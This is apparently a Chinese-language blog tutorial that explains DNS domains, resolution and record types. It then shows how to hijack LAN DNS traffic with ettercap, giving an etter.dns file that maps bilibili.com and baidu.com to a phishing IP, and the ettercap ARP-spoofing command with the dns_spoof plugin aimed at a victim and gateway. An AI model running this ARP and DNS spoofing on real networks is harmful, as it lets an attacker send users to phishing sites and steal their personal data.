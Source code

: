 ```yaml
---
layout: post
title: "网络安全（一）主动进攻之DNS基础和ettercap实现DNS流量劫持"
date: "2022-10-10T02:10:38.683Z"
---
```

网络安全（一）主动进攻之DNS基础和ettercap实现DNS流量劫持
===================================

alittlemc，个人原创，个人理解和观点。若有错误、不理解请与我联系，谢谢！

*   介绍了DNS的解析过程。
*   DNS劫持的思路和实践。

DNS
===

域名
--

以为live.bilibili.com为例子，从后到前依次为顶级（一级）域名com、二级域名bilibili，三级域名live。www是特殊的标示代表主机，有一些域名再长点，就继续四级域名、五级域名加下去。

*   其实在顶级域名后还有一个根域写作**.（英文句号）**，**www.bilibili.com.**
*   顶级域名一般代表具有一定性质的网站，com商业、cn中国、gov政府机构等等
*   二级域名代表具体的网页名称所以主体
*   三级域名就是更细的划分，比如**teiba**.baidu.com
*   www是个特殊代表主机

DNS概述
-----

**DNS**（Domain Name System，域名系统），DNS简单来说就是**已知域名求IP**的服务。在TCP/IP协议下的网络中，设备之间通信都是用网络层的IP作目标标识的，但是访问网页我们往往通过域名来访问，比如bilibili对应的IP解析为119.3.70.188，https://bilibili.com比如https://119.3.70.188都可以打开bilibili站点，但是IP地址不是每个人都能很好的记忆的，更何况将来如果IPv6广泛应用了（如图1所示），所以是DNS一项很重要的技术。

![](https://img2022.cnblogs.com/blog/2928139/202210/2928139-20221008200222990-1520299257.png)

**图1**.www.bilibili.com解析出的IPv6地址

DNS服务在提供域名解析额同时，还为服务器提供负载均衡，IP优化域名优化的效果。

*   DNS一条域名可以解析出多条IP结果，这些IP对应提供相同的服务但是位置不同的服务器，将不同的IP返回给用户，不至于让某台服务器压力太大。
*   有一些高级的DNS服务器会客户的运营商提供较优的IP，比如在广西访问广东的IP往往比访问北京的来得更快些。

![](https://img2022.cnblogs.com/blog/2928139/202210/2928139-20221008210432576-19178791.png)

  **图2**.bilibili.com全部解析结果

DNS解析过程
-------

DNS一开始本机会“**先求人不如求己**”，先查询本机DNS存放在内存中缓存（这缓存几个小时后清除），本机hosts文件。实在是没有才会向本机设置的DNS Server发起请求，本机的DNS Server为阿里的223.5.5.5。

DNS使用UDP:53端口（当然也可以使用TCP:53，在较大请求和返回数据的情况下使用，因为UDP报文最大576字节且后续报文不分片直接丢弃。所以减去UDP报头，DNS报文数据限制在512字节内）。UDP的报文很干净，一来一回也不需要握手。

*   在终端输入NSLOOKUP查询一下www.bilibili.com，并且抓包：

![](https://img2022.cnblogs.com/blog/2928139/202210/2928139-20221008210936008-1059768507.png)

 **图3**.本机192.168.4.1与DNS Server 223.5.5.5的请求过程

DNS Server接受到任务后会查询DNS数据库的，当然“人非圣贤孰能无过”，DNS Server也会查询不到IP，会再向上游DNS Server发起请求：

*   递归查询：不知道就问上一级（PC请求Server1时候也属于递归查询）
*   迭代查询：不知道认识的都问一遍

![](https://img2022.cnblogs.com/blog/2928139/202210/2928139-20221008215532741-476720014.png)

 **图4**.本机192.168.4.1与DNS Server 223.5.5.5的请求过程

 DNS查询记录
--------

DNS有不同的记录：

*   A 记录
    *   域名解析IPv4地址
*   AAAA 记录
    *   和A 记录类似，域名解析IPv6 地址
*   PTR记录
    *   IP解析域名，即反向解析，比如nslookup输入server 223.5.5.5反向解析出了public1.alidns.com

![](https://img2022.cnblogs.com/blog/2928139/202210/2928139-20221009211416539-2015593226.png)

**图5**.反向解析

*   CNAME 记录
    *   CNAME 记录另一个别名域，

![](https://img2022.cnblogs.com/blog/2928139/202210/2928139-20221009204338882-250460677.png)

**图6**.a.w.bilibili.com和www.bilibili.com相同

*   其他的记录还有:SOA 记录还有、MX记录、NS记录、TXT记录、SRV记录、APL记录、CAA记录、DNAME记录 等等。太多啦，不在本次的讨论范围啦。
    

基于ettercap实现DNS劫持
=================

完成思路
----

温馨提示：DNS劫持是违法的，请不要以身试法（一般情况我们称黑客 为小黑子香精捞饭）

1.  搭建假的DNS Server提供可以自定义DNS解析条件，基于ettrcap使用自带的**/etc/ettercap/etter.dns**。
2.  搭建假的钓鱼网站，其IP由假的DNS服务器提供，当然也可以搭建某些中转的网站，比如某个编写了恶意脚本的站点，用户打开后GET 其URL，再执行脚本后跳转。（相比于近似发，taobao.com和ta0ba0.com，DNS可以让正确的域名对于错误的站点，更隐蔽）
3.  部署站点：
    *   ettercap的基于可arp来实现的，所以只在局域网中使用，用于。
    *   钓鱼网站站点可以搭建在局域网内也可以搭建在公网中，具体内容和作用嘛，其实应该有看见过，用于盗取一些个人信息；配置使用nginx、apache作为中间价，PHP之类作为解析（或者静态的html，post到动态PHP界面）
4.  使用ettercap发起攻击

ettercap的使用
-----------

ettercap是基于ARP 地址欺骗来实现中间人攻击的工具。

可恶我的kali截图丢了，后面我会补上。

一般情况下完整版的Kali是自带甚至有图形界面，

*   github：https://github.com/Ettercap/ettercap
*   官网：[Downloads « Ettercap (ettercap-project.org)](https://www.ettercap-project.org/downloads.html)

### 编辑（假DNS请求）**/etc/ettercap/etter.dns**

\# 域名    A    钓鱼网站IP
# 比如
# 正向A

www.bilibili.com    A    10.100.10.4
www.baidu.com    　A    10.100.10.4

# 反向PRT
www.bilibili.com    PRT    10.100.10.4
www.baidu.com    PRT    10.100.10.4

### 发起攻击过程

\# 查看网关 网卡等
root @ localhost in ~ \[21:54:10\] C:1$ **sudo route -****n**
Kernel IP routing table
Destination Gateway Genmask Flags Metric Ref Use Iface
**10.100.10.1** 0.0.0.0 255.255.255.192 U 0 0 0 **wlan0**

\---

**ettercap -i wlan0 -Tq -M arp:remote -P dns\_spoof /被攻击者ip// /被攻击者网关//**
\-i <网卡>：指定网卡
\-T：只显示文本
\-q：安静模式，不显示抓到的数据包内容
\-M <攻击方式>：执行中间人攻击，这里的arp:remote为arp欺骗
\-P <插件名>：使用的插件，这里使用dns\_spoof即可dns欺骗插件

**ettercap -i wlan0 -Tq -M arp:remote -P dns\_spoof /10.100.10.120// /10.100.10.1//**

\--

今天先写这么多啦，好困啊，今天早点休息吧。
